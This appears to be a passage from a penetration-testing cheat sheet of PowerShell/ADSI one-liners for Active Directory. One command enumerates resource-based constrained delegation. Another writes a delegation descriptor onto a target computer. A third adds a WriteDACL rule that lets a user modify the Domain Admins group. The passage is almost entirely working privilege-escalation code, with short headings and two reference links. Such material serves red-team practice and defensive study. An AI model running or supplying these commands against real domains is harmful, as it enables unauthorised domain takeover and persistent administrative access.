 - Identify Resources-Based Constrained Delegation (RBCD)

```powershell
([adsisearcher]::new(([adsi]"LDAP://DC=domain,DC=local"),"(msDS-AllowedToActOnBehalfOfOtherIdentity=*)")).FindAll()| ForEach-Object {$_.Properties["distinguishedname"]; ConvertFrom-SddlString (New-Object Security.AccessControl.RawSecurityDescriptor([byte[]]$_.Properties["msds-allowedtoactonbehalfofotheridentity"][0],0)).GetSddlForm([Security.AccessControl.AccessControlSections]::Access) | select DiscretionaryAcl|fl}
```

- Abuse RBCD

```powershell
$targetEntry = ([adsisearcher]::new(([adsi]"LDAP://domain.local"),"(name=MYHOST)")).FindOne().GetDirectoryEntry(); $sid=(New-Object System.Security.Principal.SecurityIdentifier([byte[]]([adsisearcher]"(name=TARGETHOST)").FindOne().properties.objectsid[0],0)).toString();$sd=(New-Object System.Security.AccessControl.RawSecurityDescriptor("O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$sid)")); $buf = (New-Object byte[] $sd.BinaryLength); $sd.GetBinaryForm($buf, 0);$targetEntry.Properties["msDS-AllowedToActOnBehalfOfOtherIdentity"].Value = $buf;$targetEntry.CommitChanges();
```

- Abuse WriteDACL to add oneself to the target group

```powershell
$TargetUserSid=(New-Object System.Security.Principal.SecurityIdentifier([byte[]]([adsisearcher]"(name=myuser)").FindOne().properties.objectsid[0],0)).toString();$TargetEntry=[adsi]"LDAP://CN=Domain Admins,CN=Users,DC=domain,DC=local";$TargetEntry.PsBase.Options.SecurityMasks='Dacl';$TargetEntry.PsBase.ObjectSecurity.AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule(([System.Security.Principal.IdentityReference]([System.Security.Principal.SecurityIdentifier]$TargetUserSid)), ([System.DirectoryServices.ActiveDirectoryRights]'WriteProperty'),([System.Security.AccessControl.AccessControlType]'Allow'), ([System.DirectoryServices.ActiveDirectorySecurityInheritance]'None'))));$TargetEntry.PsBase.CommitChanges()
```


## References

- [How Active Directory Searches Work](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755809(v%3dws.10))
- The .NET Developers Guide to Directory Services Programming









